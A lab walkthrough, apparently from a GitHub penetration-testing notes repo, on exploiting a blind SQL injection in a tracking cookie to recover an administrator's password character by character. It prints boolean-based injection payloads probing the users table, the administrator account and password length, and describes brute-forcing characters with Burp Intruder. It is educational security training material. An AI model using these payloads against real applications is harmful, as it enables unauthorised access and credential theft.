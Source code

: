### This senario:
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

**************

We have table is ***users*** and Columns are [username,password] and username is ***administrator**


Okk we need to password for login on acount.

first we find the peremater .

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3f039039-3a35-4753-9f3d-ce998180786f)


we found this vuln peremater here.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/54cdcfc8-83b8-4f2d-a07e-151cd1a26e2f)

we used simple payload to sure from vuln.


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/acefacdb-7eee-45c6-b4bc-1ba6d7db0636)

Here 1!=0 so server given false result.

```
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4aa495b8-88a6-4b72-a2a0-9ec40604cf3e)

Ok we have users table.

```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/86abd2e4-9f51-4a2e-85b0-23be41231faa)

Ok we have username is administrator;

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/09ad5246-2eee-4976-81cb-dc7430d21785)

This payload for know how many char in password by ```length > 1``` is resutl true

we can use brute force to know this.

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

### 1
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/677e4a3e-9105-4224-96b4-6c4f7f27a199)

## 2
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b76015ee-aa02-4c31-88b7-5597578955c0)


## 3
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/fa6df2b4-efbf-438c-9078-28d4c65f8c54)

## 4
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/18bbf318-a7dc-48a5-a425-8c9d98936be5)

## 5 lastly
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d73f1e1-6d6b-465e-a2a2-d5e458c220a9)

We have 20 char for password


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6f12b594-be18-4bdc-b8b2-aef6657db522)
This payload for brute force on first char, We will using intruder again.

## 1
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/bcdd0d74-9790-4901-b5c7-e1a5abbc3112)

##2
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8db78f92-f754-46d1-9cda-437c15debcd0)

## 3
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b8b082d0-0a8a-4179-a070-8e2490a6ec8f)

## 4
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8a5f6c9e-d6c7-4e2c-8096-a734cd548252)

## 5
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/c56e3e41-75e6-4b97-af05-1ffe46687336)
Wow We have the first char from **password** is ```f```

we again try on second char

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/7e8701c2-51d7-491c-9c3c-9ac2a1eaafe0)

Wow We have the second char from **password** is ```f```


we again try on third char
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a7b25388-6a61-441a-83ed-61eb5f0a2c7a)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6fd7d326-b941-4a33-ba96-a0f76b00c201)



Wow Wow We have the third char from **password** is ```s``` 
Now password is ffs... , complete this.

We try again and again with change number of places's char to guess the full password.





























